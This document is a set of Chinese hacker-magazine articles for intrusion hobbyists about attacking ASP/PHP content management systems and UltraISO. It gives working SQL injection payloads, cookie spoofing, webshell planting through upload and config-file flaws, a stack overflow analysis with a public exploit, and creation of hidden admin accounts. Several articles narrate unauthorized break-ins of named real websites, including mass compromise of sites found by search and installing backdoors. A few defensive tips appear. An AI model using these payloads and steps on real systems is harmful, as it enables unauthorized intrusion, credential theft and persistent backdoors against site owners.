' union select 1,username,3,4,5,6,7,passwd,9,10,11,12,13,
14,adder,16,17,15,19,20,21,22,23,24,25,26,27,28
from admin where purview=99999
union select * from news where bigclassid=1
```

之后再利用漏洞一注出 FT_User 表中与 adder 值一致的前台管理员，Union 语句如下。


图14

```sql
1 * from ReView where passed=1 union select passwd,
0,username,4,5,1,7,lastlogin,9,10,11,12,13,14,15,16
from FT_User where username='base' union select top 1 ...
```

当得到前后台管理员的用户名、密码的 MD5 码后，我们就可以利用 Cookies 欺骗登录后台了。由于沸腾 1.1 版在 Cookies 中引入了 Forcast_SN 变量定义安装序列号（在 `config.asp` 文件中），所以进行 Cookies 欺骗时必须注意该值。将图 13 中选中的部分用注出的数据替换后即可成功登录后台，结果如图 14 所示；再利用“网站属性设置”写一句话木马到 `config.asp` 文件，就可得到 WebShell，如图 15 所示。


图15

```text
ManageFullName=%D0%A1%B7%D1&ManagePurview=99999&ManageUserName=base
&ManagePasswd=2ec6...&ManageKEY=super&ManageReglevel=&ManageSex=
&ManageLoginTimes=62&ManageUserEmail=base0321%40163%2Ecom
```

## 漏洞防范

凡漏洞涉及的变量，数字型的用 `ChkRequest(request.QueryString("????"),1)` 过滤，字符型的用 `ChkRequest(request.QueryString("????"),0)` 过滤。对于允许注册新用户并且注册后无需“等待审核”就能“立即发表”文章的网站，务必删除或重命名 `CreateASP.asp` 文件；在将网站配置参数写到 `inc/config.asp` 文件时，若判断参数中存在双引号就终止写入。因为要插入一句话木马必须先闭合前一个双引号，必要时进一步完善后台，以拒绝挂马。

适合读者：入侵爱好者  
前置知识：ASP

## 解析讯时网站管理系统漏洞

文／图：Zero_cold

朋友们，又是我，真没有想到马上又见面了！首先我很高兴地告诉大家，朋友的那顿饭我吃到了，这次我可没有威胁，尽管他看上去不是很情愿，但谁要他承诺了呢？下面说说讯时网站管理系统存在的一些问题，朋友网站用的就是这个系统，我是费了好大的力气才知道是这个系统的，呵呵。

开场白说得已经够多了，我们直奔主题。存在漏洞的文件是 link_js.asp，老规矩，先给大家看一下主要代码部分。

```asp
linktype=trim(request("link"))
id=trim(request("id"))
if id="" then id=0
n=trim(request("n"))
if n="" then n=8
if linktype="" then
  sql="select * from link where id="&id&" order by ontop desc, upd desc, id desc"
  Set rs = Server.CreateObject("ADODB.RecordSet")
  rs.Open sql,conn,1,1
elseif linktype="2" then
  sql="select * from link where logo='' and id="&id&" order by ontop desc, upd desc, id desc"
  Set rs = Server.CreateObject("ADODB.RecordSet")
  rs.Open sql,conn,1,1
end if
```

link_js.asp 文件是负责显示友情链接的，根据 linktype 值的不同，显示的内容也不同。假设让 `linktype='2'` 的话，就可以根据 ID 显示 logo 为空的链接，linkname 会以超链接的形式显示。由于这里的 `id=trim(request("id"))` 没有做任何过滤处理，导致漏洞产生。事实上，我们能控制的也只有这个 ID 了。如果有人看过这个程序的代码，也许会对我的话产生质疑，因为数据库的连接文件 admin_conn.asp 开头是这样写的：

```asp
sss=lcase(request.servervariables("QUERY_STRING"))
if instr(sss,"select")<>0 or instr(sss,"insert")<>0 or instr(sss,"delete")<>0 or instr(sss,"'")<>0 or instr(sss,"or")<>0 then
  response.write "<BR><BR><center>你的网站不合法"
  response.end
end if
```

或许就是这个原因，程序作者才对这个 ID 如此放心吧？这里通过 request.servervariables 方法把 QUERY_STRING 里的注入中要用到的 select 等过滤了。

如果我们的提交方式是 GET 方式的话，可以判断出存在 SQL 注入漏洞，但是猜测不出数据库的表名，使得注入无法进行下去，还会提示“你的网站不合法”。

以前也有网友和我提起过，说工具能检测到有漏洞，但猜解不了表名，说表名起得估计很变态。现在想起来，是不是程序的数据库连接文件也是这样处理才造成这样的问题呢？我们把提交方式改为 POST，就可以成功地绕过以上的检测。说到这里的时候，我的朋友说我写错了，他认为 `Request.ServerVariables("QUERY_STRING")` 是得到客户端以 GET 和 POST 提交的字符串，后来我让他测试，结果是完全可以绕过的。原因就是 QUERY_STRING 查询 HTTP 请求中问号（?）后的信息，验证的方法就是在 admin_conn.asp 这个文件的 if 里加上 `or instr(sss,"and")<>0`。用工具的 GET 提交方式检测是判断不出有注入漏洞的。这套程序别的地方的变量作者过滤得很好，然而智者千虑，必有一失，这个地方还是大意了。如果不是看源代码构造查询的成立条件就提交数据的话，想发现这样的注入点是相当困难的。

为了能使用工具检测，我构造了这样的语句：  
`http://www.target.com/news/link_js.asp?link=2&n=8&B1=%CC%E1%BD%BB&id=6`

一定记得用 POST 方式检测，不然是猜解不出来结果的。猜解出来的密码是 MD5 加密的，能否进后台看大家的运气了。进入后台后，有一个数据库备份的功能，应该可以上传图片来备份成 WebShell。后来我又发现上传功能整合的是 eWebEditor，“Edit/db” 下的 `#ewebeditor.asp` 数据库默认没有做防下载处理，在后台的“设置->上传文件设置->图片上传类型”里没有过滤，写入一句话 ASP 木马提交就会写到 `#ewebeditor.asp` 数据库中了。在这里为了节约黑防的宝贵版面，我就不贴图了，大家看一下动画演示就会明白了。

最后我在网上搜索了一下，发现使用这个系统的人相当多，具体多到什么程度，去中国站长站看看下载的人数就知道了。可见使用人数多的程序，也不一定就是最安全的。还在使用这套程序的朋友赶快做好相应的防护，密码弱的话会有被黑的可能。我就快离开校园了，有不少问题以后要请教黑防的朋友们，真诚地希望能与各位黑友交流。

---

适合读者：入侵爱好者、溢出爱好者  
前置知识：汇编语言、缓冲区溢出基本原理

#### UltraISO 畸形 cue-bin 文件栈溢出漏洞

文/图：王榜 shineast


UltraISO 软碟通是一款功能强大、方便实用的光盘映像文件制作、编辑、格式转换工具。它可以直接编辑光盘映像和从映像中提取文件，也可以从 CD-ROM 制作光盘映像或者将硬盘上的文件制作成 ISO 文件。同时，你也可以处理 ISO 文件的启动信息，从而制作可引导光盘。另外，UltraISO 也支持 .cue 和 .bin 文件。.bin 和 .cue 格式是随着 CDRwin 软件的使用流行起来的，之后许多软件开始支持这种格式。

然而经过测试，UltraISO 软件的所有版本（最新版本是 8.6.2.2011）都存在畸形 cue-bin 文件栈溢出漏洞。具体地说，就是其在处理有超长 FILE 字符串的 .cue 文件时存在栈溢出漏洞，如果用户受骗加载了恶意的 .cue 文件，就可能触发这个溢出，导致执行任意指令。

该 exp 可以生成畸形 cue 文件和 bin 文件，但是这个 exp 有些问题：一是需要修改 jmp esp 指令地址，这个问题并不严重，因为同操作系统版本中系统 DLL 文件（如 ntdll.dll、shell32.dll、kernel32.dll 等）中 jmp esp 指令地址都是相同的，可以随便选一个用；二是为了避免花指令，应该在 jmp esp 指令地址和 ShellCode 中间加入一些 90（nop 指令）作为缓冲。最终生成的畸形 cue 文件和 bin 文件如图1和图2所示。

##### 漏洞分析

首先我们需要了解一下 .bin 和 .cue 文件。.bin 和 .cue 文件通常成对出现，组成一对光盘镜像文件，其中 .cue 文件里包含了 .bin 文件的文件名、路径等相关信息，而 .bin 文件中才存储真正的光盘数据。

.cue 可以用记事本编辑。一个标准的 playstation CD 的 .cue 文件如下：

```
FILE "image-name.BIN" BINARY
TRACK 1 MODE2/2352
INDEX 1 00:00:00
```

一个标准的 PC 数据 CD 的 .cue 文件内容如下：

```
FILE "image-name.BIN" BINARY
TRACK 01 MODE1/2352
INDEX 01 00:00:00
```

“image-name.BIN”是对应 .bin 文件的名称（如 [IWD1].BIN、CIV3.BIN 等），PC 数据 CD 是 Mode1；PS2、VCD、SVCD 都是 Mode2。

有了这些知识以后，我们剩下要做的就是构造一个带有超长 bin 文件名的 cue 文件，然后用 OllyDBG 跟踪 UltraISO 打开这个畸形 cue 文件，定位程序溢出位置，并分析溢出的根本原因。

milw0rm.com 上公布的 exp（http://milw0rm.com/exploits/4001）可以生成我们需要的畸形 cue 文件和 bin 文件。


其中 bin 文件内容很简单，随便写点内容即可！

值得一提的是，畸形 cue 文件中，文件路径要包括如图3所示的四部分。  
图3：畸形 cue 文件中描述 FILE 路径的字符串（组成/作用等字段）。

下面我们用 OllyDBG 跟踪 UltraISO 打开这个畸形 cue 文件（bin 文件一定要与 cue 在同目录下），发现了一个问题：UltraISO 是加了壳的。用 PEiD 一看，是用 ASPack 2.12 -> Alexey Solodovnikov 加的壳，如图4所示。这是个压缩壳，随便找个脱壳工具脱之。脱壳后发现，原来 UltraISO 是用 Borland C++ 编写的，如图5所示。


图4


图5

脱壳的问题解决了，下面的问题是如何定位程序溢出位置，并分析溢出的根本原因。这里提供一种方法，就是用 OllyDBG 跟踪时下“内存断点”。简单地说：由于程序每次溢出的栈地址基本相同，而且会出现大片大片的 41414141，可以在这些地址中选一个（最好是取中间的某个地址），然后在第二次跟踪时，在这个内存地址处下“内存断点”，这个“内存断点”应该是一个内存写入时的断点。这样，我们只要断到这个内存被写入 41414141 的时刻，就意味着我们定位到了程序溢出的位置。

我用上面“内存断点”的方法定位了导致溢出的程序段，如下所示。

```
004AF4EE  8B0D B8756200   MOV ECX,DWORD PTR DS:[6275B8]
004AF4F4  A1 C0756200      MOV EAX,DWORD PTR DS:[6275C0]
004AF4F9  0FBE1401         MOVSX EDX,BYTE PTR DS:[ECX+EAX]
004AF4FD  83FA 22          CMP EDX,22
004AF500  0F84 C2000000    JE UltraISO.004AF5C8
004AF506  8B0D B8756200    MOV ECX,DWORD PTR DS:[6275B8]
```

```
004AF50C  A1 C0756200      MOV EAX,DWORD PTR DS:[6275C0]
004AF511  0FBE1401         MOVSX EDX,BYTE PTR DS:[ECX+EAX]
004AF515  83FA 0D          CMP EDX,0D
004AF518  74 14            JE SHORT UltraISO...
004AF51A  8B0D B8756200    MOV ECX,DWORD PTR DS:[6275B8]
004AF520  A1 C0756200      MOV EAX,DWORD PTR DS:[6275C0]
004AF525  0FBE1401         MOVSX EDX,BYTE PTR DS:[ECX+EAX]
004AF529  83FA 0A          CMP EDX,0A
004AF52C  75 0A            JNZ SHORT UltraISO...
004AF52E  B8 FFFFFFFF      MOV EAX,-2
004AF533  E9 B0020000      JMP UltraISO.004AF7E8
004AF538  FF05 C0756200    INC DWORD PTR DS:[6275C0]
004AF53E  8B15 C0756200    MOV EDX,DWORD PTR DS:[6275C0]
004AF544  8B0D BC756200    MOV ECX,DWORD PTR DS:[6275BC]
004AF54A  3BD1             CMP EDX,ECX
004AF54C  7C A0            JL SHORT UltraISO...
004AF54E  EB 78            JMP SHORT UltraISO...
004AF5C4  3BD1             CMP EDX,ECX
004AF5C6  7C 90            JL SHORT UltraISO...
004AF5C8  A1 C0756200      MOV EAX,DWORD PTR DS:[6275C0]
004AF5CD  8B15 BC756200    MOV EDX,DWORD PTR DS:[6275BC]
004AF5D3  3BC2             CMP EAX,EDX
004AF5D5  7C 0A            JL SHORT UltraISO...
```

```
004AF5E1

如果 EAX < EDX 就到 004AF5E1

004AF5D7  B8 FEFFFFFF        MOV EAX,-2
004AF5DC  E9 37020000        JMP UltraISO.004AF818
004AF5E1  8B15 C0756200      MOV EDX,DWORD PTR DS:[6275C0]
; EDX = cue 中字符串引号前的字符长度
004AF5E7  8B4D FC            MOV ECX,DWORD PTR SS:[EBP-4]
; ECX = 00000005("FILE "这些字符的长度)
004AF5EA  2BD1               SUB EDX,ECX
; EDX = EDX-5
004AF5EC  52                 PUSH EDX
; 函数参数1：要复制的长度
004AF5ED  A1 B8756200        MOV EAX,DWORD PTR DS:[6275B8]
; EAX = 堆中的 cue 文件内容(基址)
004AF5F2  8B55 FC            MOV EDX,DWORD PTR SS:[EBP-4]
; EDX = 00000005("FILE "这些字符的长度)
004AF5F5  03C2               ADD EAX,EDX
; EAX = EAX+5; EAX 将指向 "AAAA...."
004AF5F7  50                 PUSH EAX
; 函数参数2：起始地址
004AF5F8  FF75 0C            PUSH DWORD PTR SS:[EBP+C]
; 函数参数3：当前栈帧的一个地址
004AF5FB  E8 10301300        CALL UltraISO.005E2610
```

仔细阅读上面的程序和我的注释，不难看出导致溢出的根本原因是：程序从堆中得到描述 FILE 路径的字符串后，没有考虑这个字符串的长度就直接复制到当前栈帧中，导致再大的栈帧也是可以被溢出的。另外，通过分析，还可以看出程序是通过引号来识别 FILE 路径字符串的。

至此，我们可以总结导致溢出的根本原因是：UltraISO 程序中把 cue 文件内容全部读取到堆后，再从堆中得到描述 FILE 路径的字符串，没有检查这个字符串的长度就直接复制到栈中，从而发生程序溢出。

##### 漏洞利用

该漏洞属于本地栈溢出类漏洞，虽然不能拿来远程攻击，但是把这样的畸形 cue 文件和 bin 文件发送给攻击目标，并诱使用户用 UltraISO 加载，也是可以实现攻击效果的，可导致在目标主机上执行任意指令。

milw0rm.com 上公布的 exp 可以弹出一个计算器，在我的电脑上测试通过，如图6所示。


图6

当然，我们也可以不弹出这个计算器，而是运行一个打开目标主机的 4444 端口，或者让目标主机自动从某个网站下载一个程序并自动执行，这样危害会更大，攻击性也更强！如图7所示。要实现这些功能，什么都不用做，只要更改杂志相关文章中我提供的 cue 文件、bin 文件生成器源码中的 ShellCode 即可，然后编译一下，再执行一下 Debug 下的 go.bat 脚本，就可以在这个 Debug 下生成畸形的 cue 文件和 bin 文件。


图7

##### 总结

因此，攻击的关键就是 ShellCode。建议大家平时多编写、多收集高质量的 ShellCode，以备后用。

经过这次漏洞分析，发现一个问题，就是不是所有软件都可以直接拿来逆向、反汇编动态调试、静态分析。原因是很多软件都开始给自己加壳了，不过有些壳好脱，像 UltraISO 用的这个压缩壳 ASPack 2.12 -> Alexey Solodovnikov，就可以用一般的脱壳工具直接脱掉。但是还有很多软件或程序确实麻烦，有的是保护壳，还防调试、校验等等，都给我们逆向分析带来阻碍，这也许是破解部分最核心的内容了。

因此，要想成为一个真正的黑客，就要学习很多东西。不光是要深入理解溢出，还要实践加密与解密；不光要懂协议规范，还要懂各种文件格式规范；不光要会攻击，还要会防范……

---

适合读者：入侵爱好者  
前置知识：PHP 基础

## 入侵 Windows 2003 系统

文/图：enbird[H.U.C] 河北泊头扬宇

不知道上几期的 PHP 注入系列大家学得如何了？一定要努力学习哦，想要自己挖掘 PHP 漏洞的想法马上就会实现的。如果最近没有关注的话，赶紧拿起手边的电话给黑客防线邮购部打电话吧，精彩不容错过。

好了，废话不多说了，这次我给大家介绍的是如何从一个 PHP 漏洞入手拿到系统权限与安装系统后门的方法。整个过程比较详细，即便是菜鸟，也很容易按照这个思路自己入侵系统。

### 初步试探

我们的目标是 http://www.witcom.tv，一家专业从事大型管理软件、条件接收系统的开发、集成和运营服务的高科技公司。嘿嘿，像我这样的菜鸟就喜欢入侵这样的高科技公司，来看看它到底有多“高”！

初步看了一下这个网站，发现是架设在 Windows 操作系统上的支持 PHP 脚本语言的网站。可我是如何知道的？看看图1大家就明白了。很简单吧，这也算是快速手工得到网站所使用操作系统的方法了。

出了 www.witcom.tv 的操作系统为 IBM AIX 4.3.2.0–4.3.3.0 on an IBM RS，不太可能吧？后来我才确定是 Windows 2003 操作系统。

nmap 是一款很强的软件，强烈推荐和我一样的菜鸟学习一下。如果有机会的话，我会在以后专门写一篇详细利用 nmap 的文章。


图2

第二步，看看操作系统开了哪些服务吧。有请 nmap 出场，如图2所示。我们得到了这个网站开放的端口号，分别是 21、80 和 3389，而且 nmap 也报告……


图3

第三步，既然知道了是 Windows 2003 的操作系统，而且又开放了 FTP 端口，那我们就试着连接一下，看看是不是传说中的 Serv-U 了，如图3所示。结果很让人失望，不是 Serv-U，而是 Windows 系统自带的 FTP 服务器，没办法了。


图1

最后就是看看 3389 能不能连接了。我们连接一下试试，如图4所示，由此我确定了网站采用的是 Windows 2003 操作系统。

图4

以上就是我们经常要做的最基本的踩点方法了。扫描完系统以后，我们要做的就是确定这样的操作系统利用什么样的漏洞来入侵了。因为是 Windows 2003 操作系统，自己手上也没有像样的 Exp，所以只好从 Web 入手了。

## 发现 SQL 注入点

简单地浏览了一下网站，发现做得很简洁，但是简洁并不意味着没有漏洞。很快我就找到了一个 PHP 的注入点：http://www.witcom.tv/zcms/app/web/product.php?ArticleID=102'，如图5所示。从这里我们可以得到两个重要信息，一个是 Web 的路径为“D:\www.witcom.tv\”，一个是最下面的 msg SQL 语句执行出错。其实，在这里我们还可以得到很多信息，下面我会详细介绍。我们用“and 1=1”和“and 1=2”测试，结果得到了很经典的 PHP 注入漏洞。继续输入：http://www.witcom.tv/zcms/app/web/product.php?ArticleID=102%20and%201=2%20union%20select%201/*，如图6所示，可以获得详细信息：The used SELECT statements have a different number of columns，意思是告诉我们 union 的联查和以前的 SELECT 字段不相同。我们继续输入，一直到 15 的时候得到了我们想要的结果。

图5

图6

得到了 Web 路径后，我们继续输入：
http://www.witcom.tv/zcms/app/web/product.php?ArticleID=102%20and%201=2%20union%20select%201,2,3,4,load_file(char(68,58,92,119,119,119,46,119,105,116,99,111,109,46,116,118,92,122,99,109,115,92,68,80,85,92,105,110,102,92,109,97,105,110,46,112,104,112)),6,7,8,9,10,11,12,13,14,15/*。

如图7所示。这里的 load_file(char(...)) 的意思就是利用 MySQL 的 load_file(char()) 来读取“D:\www.witcom.tv\zcms\DPU\inf\main.php”这个文件的源代码，我们可以从图7上看到还包含了 Include File("../../DPU/system/conn.php"); 如果猜测没错的话，我想这个 conn.php 文件一定包含了 MySQL 的用户密码。用 load_file() 函数读取一下，得到具体的 Web 目录是“D:\www.witcom.tv\zcms\DPU\system\conn.php”；再用 phpzend 这个软件就可以转化成我们所需要的格式了，如图8和图9所示。虽然拿到了 MySQL 的用户，但是我们不能利用 MySQL 远程连接，然后写入 WebShell，因为服务器的 3306 端口被屏蔽了。

图7

图8

并且不能远程连接的话，如何拿到 WebShell 呢？我们前面的入侵已经拿到了 Web 服务器的路径，也拿到了 MySQL 的用户和密码。我们首先用 MySQL 连接到远程的 MySQL 上，可以使用 phpMyAdmin 来进行连接，只要修改 phpMyAdmin 的 config.php 文件就可以了。下面我就一步一步地教给大家，这样可以让大家懂得更多，入侵的时候也多一条思路。

如图10所示，我们利用 phpMyAdmin 连接到了服务器上，随便打开一个数据库，这里使用的是 cnbird 这个数据库，然后在图中画线的地方输入 cnbird 和字段1，大家可以随便写，但是字段1必须要写，而且还要是 TEXT 类型的，以便于把我们的 Shell 插入到里面去。如图11所示，创建成功了，之后点击“插入”写入 lanker 的 PHP 一句话后门，如图12所示，再点击最左上角的“SQL”来执行我们自己的 SQL 语句。

```sql
SELECT * FROM `cnbird` INTO OUTFILE "c:\\usr\\local\\www\\data\\hackcnbird.php";
```

意思是把 cnbird 中的结果输入到 Web 路径的 hackcnbird.php 文件中。如图13所示，我们成功执行语句了。下面就看一下能不能连接上了，如图14，成功了。

虽然我们能读取文件的内容，但是搞了很久还是没有能够拿到 WebShell 和猜测到用户名与密码，一切都陷入了僵局。

## 峰回路转成功拿到 WebShell

难道就这样结束了吗？不能 into outfile 导出 WebShell，因为 magic_quotes_gpc 为 On 了，我们所提交的 GET 和 POST 数据只要包含“'”就被自动加了反斜杠。

漫无目的地转了转，也没有发现什么可利用的。然后去 google.cn 输入“inurl:/ewebeditor/ site:witcom.tv”搜索，果然出来结果了，如图15所示，原来是 ewebeditor 系统。输入默认的用户名 admin 和密码 admin，竟然成功进入了后台。

如图16所示，我们在图片类型里面填入 PHP，直接预览后再上传 PHP 木马。步骤很简单，这里就不演示了，最后我们拿到的 WebShell 地址为 `http://www.witcom.tv/cms/editor/upload/200706/20070601075947586.php`，如图17所示。

## 提权之路

本以为提权会很辛苦呢，因为 FTP 为微软自带的，没有什么可利用的。PCAnywhere 也没有安装，不能靠读取密码来获得系统权限。

直接在我的 WebShell 里面输入 `\ipconfig`，得到了如图18所示的结果，可以执行命令啊，那就试试输入“`net user cnbird$ hacker/add`”和“`net localgroup administrators cnbird$ /add`”，结果成功了，如图19所示。顺利地拿到了用户，原来服务器的 Apache 是以超级用户运行的。接下来的事情就好说了，直接用 3389 终端连接器连接到服务器上即可，如图20所示。

最后，我安装了一个 php.ini 的超级后门，就是利用“lanke 一句话木马”可以连接任意服务器上的 PHP 文件。具体方法大家可以参考文章“PHP 后门隐藏技术再探”（http://blog.sina.com.cn/u/484288c7010008d8）。

##### 总结

还是那句话，入侵就像垒积木，只要平时不断积累，就可以在任何环境中拿到 WebShell。本次的入侵方法很简单，主要是靠自己的运气。从 SQL 注入 -> 无法拿到 WebShell -> google.cn 搜索 ewebeditor -> 用户名和密码为默认 -> 上传 WebShell -> 系统权限加用户 -> php.ini 后门。过程看着很复杂，其实很简单，希望这篇文章能够带领很多刚入门的朋友拿到自己的 PHPShell。

- 适合读者：入侵爱好者
- 前置知识：ASP

## 从天涯海角整站漏洞

### 入侵黑客中国安全网

现在国内大部分的黑客站点都比较安全，为什么安全呢？因为只要漏洞一出来，他们第一个就修补了，干这行的如果自己架设的网站都管不好，那还不颜面扫地才怪呢！等我们小菜去检测的时候，早就补好了，所以很多黑客技术爱好者一般都不去检测黑客站点，因为心中敬畏嘛。好了，废话不多说了，我们转入正题。

```asp
if request("keyword")<>"" then
  if instr(request("keyword"),"'")>0 then
    founderr=true
    errmsg=errmsg+"<br>"+"<li>非法的文章搜索参数。"
  end if
end if
```

### 天涯海角漏洞分析

天涯海角系统在网络上使用的人还不少，界面不错，特受站长们的喜欢。在本地架设好 IIS，浏览了一下，觉得真的不错，适合大多数站长们的需求，如图1所示。

大部分的变量都被 integer 函数过滤了，这个函数表示客户端的变量是整型的，我们注入输入的都是字符型的，所以注入是行不通的！但是一个文件不能注入，并不代表所有文件都过滤得很安全。我们看代码的时候要用心去看每个文件，终会有所收获的。最终，我在 play.asp 文件中发现变量存在问题，主要代码如下：

```asp
<%
sql="select * from dj where dj_id="&request.querystring("dj_id")&""
set rs=server.createobject("adodb.recordset")
rs.open sql,conn,1,1
'...
%>
```

图1

我们首先看 art.asp 文件，它是前台的文章系统，很容易产生注入，结果一看就没有注入的可能了。从以下关键代码可以看出来过滤得很好，不存在问题。

```asp
if request.querystring("cat_id")<>"" then
  if not isInteger(request.querystring("cat_id")) then
    founderr=true
    errmsg=errmsg+"<br>"+"<li>非法的文章分类参数。"
  end if
end if

if request("page")<>"" then
  if not isInteger(request("page")) then
    founderr=true
    errmsg=errmsg+"<br>"+"<li>非法的文章分页参数。"
  end if
end if
```

变量 dj_id 直接从客户端取得，没有过滤就放到数据库中进行了查询，直接导致注入！但我在实际操作中却遇到了困难，提交“http://localhost/tiany/play.asp?dj_id=3”返回了空白，不管变量的值是多少都这样。用工具注入也没有任何结果，提示不存在注入，但的确是有漏洞的，这样漏洞便成了鸡肋。后来看完了所有文件，发现只有 play.asp 文件有漏洞，别的文件都没有任何问题。正要放弃分析的时候，无意间试了一下后台，结果用万能密码“or'='or'”竟然进去了，如图2所示。我想可能是程序员写程序的失误吧，前台过滤得那么好，怎么还存在这个漏洞！

既然存在这个低级漏洞，那会不会存在上传漏洞呢？带着疑问点了下“添加文章”，发现是 ewebeditor 在线编辑器。汗，存在这个东西，WebShell 唾手可得了。我很自信地上传了图片木马，路径如图3所示。

在 IE 中输入 http://localhost/tiany/ewebeditor/admin_login.asp，结果返回找不到网页。晕，删除链接了，如果没有数据库备份，这下还真拿不到 WebShell 了。结果不出所料，没有数据库备份功能！正在失望之际，又看到一处可以上传的地方，系统有个图片管理，里面可以上传图片。开始我尝试上传 ASP 格式，返回了错误；上传 cer 格式则成功了，如图4所示，再尝试 asa 格式也成功了。带着激动的心情看了一下源文件，找到了马儿的地址，成功拿到 WebShell。

图2

图3

图4

存在上传漏洞的文件是 saveupload.asp，主要代码如下：

```vb
if file.filesize>100 then
  fileExt=lcase(right(file.filename,3))
  if fileExt="asp" then
    response.write "<SCRIPT language=JavaScript>alert('老大,别黑我的程序，你上传的文件属于非法文件！！')</SCRIPT>"
    response.write "javascript:history.go(-1)</SCRIPT>"
  end if
end if
```

```vb
if fileExt="exe" then
  response.write "<SCRIPT language=JavaScript>alert('老大,别黑我的程序，你上传的文件属于非法文件！！')</SCRIPT>"
  response.write "javascript:history.go(-1)</SCRIPT>"
end if
if fileExt="php" then
  response.write "<SCRIPT language=JavaScript>alert('老大,别黑我的程序，你上传的文件属于非法文件！！')</SCRIPT>"
  response.write "javascript:history.go(-1)</SCRIPT>"
end if
```

看到了吧，只限制了 ASP、PHP 和 EXE 后缀名的文件，这个思想是极端错误的，系统根本没有过滤这些文件。只是当客户端上传 ASP 文件的时候才返回错误对话框，其实我们的木马已经成功上传到服务器上了，这样我们就可以抓包找到 ASP 木马的地址！如果服务器支持 PHP 的话，还可以上传 PHP3、JSP、CDX 等木马。一开始我误以为只有进后台才能上传木马，结果发现系统并没有验证身份，导致我们不进后台也可以直接上传 asa 木马了。

除此之外，这套系统还存在跨站漏洞，在后台的文章添加处，添加一个分类，写入跨站语句，即可跨站成功，前台效果如图5所示。

图5

### 实战入侵黑客中国安全网

分析完这个系统的漏洞后，心里很痒，想去拿点 Shell，于是就有了下面的入侵。在百度中输入“inurl:rephoto.asp”，找到不少采用这套系统的网站，我就看准了“黑客中国”这个站，就拿它做靶子吧。我首先看了一下后台登录地址，在 IE 里输入 http://www.hackercn.net.cn/hackblog/admin.asp，直接跳转到后台登录了，用“' or ' = ' or '”登录失败了，弹出错误对话框。黑客站点就是不一样，安全性能大大提高了，如图6所示。

图6

不过我们还有办法！上传漏洞在等着呢！打开地址 http://www.hackercn.net.cn/hackblog/upload.asp 就看到了熟悉的上传界面，上传 cer 木马，返回成功。

- 适合读者：入侵爱好者
- 前置知识：ASP

#### 南方数据、网软天下与新青年企业建站系统最新漏洞

文/图 某幻★剑客

随着网络的普及，越来越多的公司开始架设自己的网站，企业建站系统的下载率自然会相当高了。这里我们就以网上用得最多的南方企业建站系统来分析。看到文章标题大家就知道这个漏洞的重要性了吧？涉及到三套企业系统（甚至还不止呢！），之所以把它们一起说，主要是因为这三套系统都有同样的漏洞，网站内核都差不多。

## 避过注入点

我原本准备研究网软天下管理系统的，打开本地 IIS 服务器，看了下主页，还不错。随便找了个链接加个单引号，系统马上弹出了如图1所示的错误对话框，原来它和南方数据系统一样存在防注入，那就索性研究一下还没有被挖掘出来的漏洞吧。看了十几个文件都不存在漏洞，最后终于在 CompHonorBig.asp 文件发现了问题，我们先看看存在问题的代码。

```asp
#include file="Inc/conn.asp"
<%dim id, iid%
id=request.QueryString("iid")
...
rs.open "select * from CompHonor where id="&id,conn,1,1
%>
```

```asp
<%id=request.QueryString(iid)%>
// 变量 id 直接从客户端取得，没有经过任何函数过滤
<html>
<head>
<title>图片</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
...
rs.open "select * from CompHonor where id="&id,conn,1,1
// 将变量 id 放到数据库里面查询，典型的 SQL 注入漏洞产生了。
```

但是找到木马地址的时候，服务器却提示下载，说明服务器屏蔽了后缀 cer。不要紧，我们还有 asa 呢。上传 asa 木马成功后，我又傻眼了，提示非法文件，如图7所示。

想了想，难道我分析的系统和这个系统不是一个版本？还是已经修复了漏洞？带着这些疑问，又仔细地看了看页面，发现它的头部信息提示上传成功了。难道这是管理员鸡肋的修补方法，没有做到根本弥补？于是我用 Winsock Expert 抓包，结果成功抓到了 asa 木马，然后打开木马地址，我自己修改的 ASP 木马就出来了，如图8所示，成功拿到了 WebShell。

利用木马浏览了一下服务器，发现服务器是虚拟主机，ASP 木马权限很低，不能跳转目录，没有硬盘访问权限，CMD 命令也不能用。想上传一个 cmd，提示写入失败。看来 IIS 权限设置得还不错，最后扫了下端口，开了 43958，没有开 3389。

此次入侵黑客中国网到此就算结束了。我们之所以能够成功入侵，主要是这套系统存在严重的上传漏洞。还在使用这套系统的网站，赶紧做好防范工作吧！最后说一下，黑客中国网存在的漏洞我已经帮它修补了，大家就不要再搞了！

看到这里心中一喜，看来有门了。手工猜解过程如下，考虑到有很多读者是新手，我截图下来便于大家对照比较。首先判断存在的表名，这里我直接猜 admin 表，提交“http://localhost/wr/wr/CompHonorBig.asp?id=1 and exists(select * from admin)”。返回正常，说明存在 admin 这个表，如图2所示。继续猜字段长度，提交“http://localhost/wr/wr/CompHonorBig.asp?id=1 order by 5”返回错误。当提交“order by 4”时返回了正常，所以长度是 4。接下来进行联合查询，提交“http://localhost/wr/wr/CompHonorBig.asp?id=1 and 1=2 union select 1,2,3,4 from admin”，直接返回了 2，再把字段名 username、password 分别带入返回的 2 中，就得到了账户和密码了，分别为 admin 和 admin，如图3所示。


利用拿到的密码进入后台，接下来再拿 WebShell 就很简单了。在“网站配置”中添加个 cer 格式的文件（asp 与 asa 都不行，在源码里面做限制了），如图4所示。这套系统的后台功能和南方数据企业网站后台一样。黑防1月份的杂志上花花分析的绿动科技企业系统后台也和这个一样，都可以在后台上传 cer 后缀名的木马。我下载的网软天下系统是测试版本，后台被限制了，这里就以南方数据企业管理系统后台做演示了。http://localhost/0791idc10.0/UploadFiles/20075272274113.cer 就是我上传后得到的 WebShell 了，如图5所示。


如果有的服务器不支持 cer 格式的，上传后提示下载，我们还可以上传图片木马，然后利用数据库备份也可以得到 WebShell！这套系统只要能进后台，什么事情就都好办了！

## 网络实战入侵

本地搭建的平台测试虽然成功了，但总觉得不爽，于是我特地跑到网吧实战测试了一下。我觉得我发现的这个漏洞文件比较有代表性，就百度了下，结果仅页面就有70多页，顺便拿了很多站的 WebShell。拿到 WebShell 后就是提权了，因为这个系统主要是企业建站，大部分是虚拟主机，这样比较划算。现在虚拟主机很安全，渗透起来很费劲，但我还是拿下了一个服务器。

这里就以 http://www.hfangshz.com/ 做演示，前面的步骤我就不多说了，还是用啊D直接扫，破解密码进后台拿到 WebShell。当时看了一下，C 盘没有浏览权限，但是 D 盘有权限浏览，并且里面放了大量的站点。看到 D 盘下有一个 FTP 文件夹，我估计这样的服务器极有可能装有 Serv-U，就想用 Shell 自带的提权。在提权之前还是先看一下能不能用 CMD，结果不能用，也对嘛，C 盘都没有权限浏览，怎么可能用得起。我后来在站点根目录又传了个 CMD，结果还是没有权限运行。但是不管怎么样，也要试下 serv-u，结果不负众望，提权成功，如图6所示。


